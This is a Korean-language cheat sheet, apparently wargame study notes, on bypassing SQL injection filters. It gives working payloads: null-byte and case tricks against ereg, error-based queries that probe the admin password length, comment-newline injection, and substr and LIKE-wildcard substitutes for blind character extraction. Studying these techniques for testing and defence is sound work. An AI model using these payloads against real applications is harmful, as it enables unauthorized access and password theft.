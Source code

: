 ## ereg, eregi 우회 : case-sensitive

특수문자 → %00(널바이트) : %00(널바이트)까지 패턴 검색
문자열 → 대소문자 변경

## 기타 팁

영어가 아닌 문자 Blind-Injection 시, 한글자 당 바이트 추출:length(mid(pw,1,1))=4
error based SQL Injection
  - ' or id='admin' and if((select id='admin' and length(pw)=16), true, (select 1 union select 2))#
  - ' or id='admin'&&power((length(pw)>10)+1,999999999999999999)#











# 주석을 이용한 SQL Injection
'#'의 주석범위는 1Line -> 1Line은 %0a로 내릴수 있음
select test from test where id='abc' # %0a or 1=1 #











이 아래는 Blind SQL Injection에 대한 내용이다.


이럴 경우에 어떻게 필터링을 우회해야 하는지에 대해서 서술하겠다.

5)
일반적인 SQL Injection이 불가능할 경우에는 Blind SQL Injection 을 사용해야 한다.

Blind SQL Injection 을 하기 위해서는 글자를 잘라내는 과정이 선행되어야 하는데 여기서 substr 함수가 필터링될 경우가 있다.

6)
콤마만을 필터링당했을 경우에는 select substr('asdf' from 1 for 1)='a' 라는 방법도 존재한다.

7-1)
함수 자체가 필터링된 경우에는 substring 함수로 대체할수가 있다.

7-2)
그러나 substring 함수에 substr 라는 문자열이 들어가기에 [substr(] 라는 단어를 필터링하지 않는이상 substr 함수와 함께 필터링될 확률이 높다.

그럴때는 like 쿼리의 와일드카드를 사용해서 아래처럼 우회할 수 있다.
select id from member where id like 'a%'
select id from member where id like 'b%'
select id from member where id like 'c%'

% 는 뒤에 몇글자가 들어오던지 상관하지않고 select 를 해주는 역할을 하는 와일드카드이기에 이런 공격이 가능한 것이다.

첫번째 글자를 알아낸 후에는 아래의 예제처럼 뒤에 한글자씩 추가해주면 된다.
select id from member where id like 'ca%'
select id from member where id like 'cb%'
select id from member where id like 'cc%'
